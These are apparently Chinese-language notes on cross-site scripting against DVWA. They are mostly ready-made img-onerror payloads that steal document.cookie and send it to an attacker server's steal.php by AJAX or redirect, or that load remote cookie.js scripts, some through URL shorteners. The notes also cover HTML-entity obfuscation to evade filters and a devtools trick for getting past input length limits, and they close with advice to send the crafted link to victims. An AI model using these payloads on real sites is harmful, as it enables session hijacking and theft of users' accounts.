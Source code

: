 ```></option></select><img src=1 onerror=alert('hack')>```
直接跳转到steal.php

[**html字符 转换 字符实体在线编码**](https://www.qqxiuzi.cn/bianma/zifushiti.php)

在python 中解码函数 print (html.unescape('&#20013;&#22269;'))


js操作ajax(注入字符过多，不推荐)

```
	<img src=# onerror='var url="http://192.168.1.101:808/steal.php";var postStr="data="+document.cook&#x69;e;var ajax=null;&#x69;f(w&#x69;ndow.XMLHttpRequest){ajax=new XMLHttpRequest();}else &#x69;f(w&#x69;ndow.Act&#x69;veXObject){ajax=new Act&#x69;veXObject("M&#x69;crosoft.XMLHTTP");}else{ajax=null;}ajax.open("POST",url,true);ajax.setRequestHeader("Content-Type", "appl&#x69;cat&#x69;on/x-www-form-urlencoded");ajax.send(postStr);'>
```

jq操作ajax(注入字符过多，不推荐)(这里使用短链接会异常，应该是浏览器解析dom的问题)

```
	<img src=# onerror="var a=document.createElement('scr&#x69;pt');a.setAttr&#x69;bute('src', 'https://dwz.cn/tA0Ob030');document.getElementsByTagName('head')[0].appendCh&#x69;ld(a);var b= document.createElement('scr&#x69;pt'); b.setAttr&#x69;bute('src','http://192.168.1.101:808/c.js');document.getElementsByTagName('head')[0].appendChild(b);">
```

```ALTER TABLE guestbook MODIFY name VARCHAR(180);```

**js操作原生态ajax,不用引用jquery，最节省代码**,171字符

```	
	<img src=# onerror="var b= document.createElement('scr&#x69;pt');
	b.setAttribute('src','http://192.168.1.101:808/b.js');
	document.getElementsByTagName('head')[0].appendChild(b);">
```

6.限制输入字符长度的浏览器注入方法

chrome: F12 ，Elements , 选定元素，Edit as HTML

firefox:F12 ，inspector/查看器，编辑html， 修改 maxlength

7.记录cookie

	<img src=# onerror=(location.href="http://192.168.1.101:808/steal.php?data="+document.cookie)>


这种方式有个缺点就是将cookie发送到steal.php后他会刷新页面跳转到steal.php，所以要用ajax优化

在有xss漏洞的位置插入:


```<script src=http://192.168.1.101:808/cookie.js></script>```

相当于构造链接:

```http://192.168.255.151:8081/DVWA-master/vulnerabilities/xss_r/?name=<script src=http://192.168.1.101:808/cookie.js></script>```

也可以用jquery操作ajax，但是需要引入头文件例如 ```https://cdn.bootcss.com/jquery/1.10.2/jquery.min.js```

[**百度短网址**](https://dwz.cn/)

[**免注册短网址生成**](https://zxso.net/tool/shorturl.php)

```<script src=https://dwz.cn/tA0Ob030></script><script src=http://192.168.1.101:808/c.js></script>```   成功跨域获取cookie,压缩到刚好100字节(还可以服务器使用80端口继续压缩字节)

**将链接发给该网站下的受害者，受害者点击时就会加载远程服务器（vps）上的cookie.js脚本，这里要提一点，用src加载远程服务器的js脚本，那么js的源就会变成加载它的域，从而可以读取该域的数据。这时，vps的数据库就接收到了cookie。**

```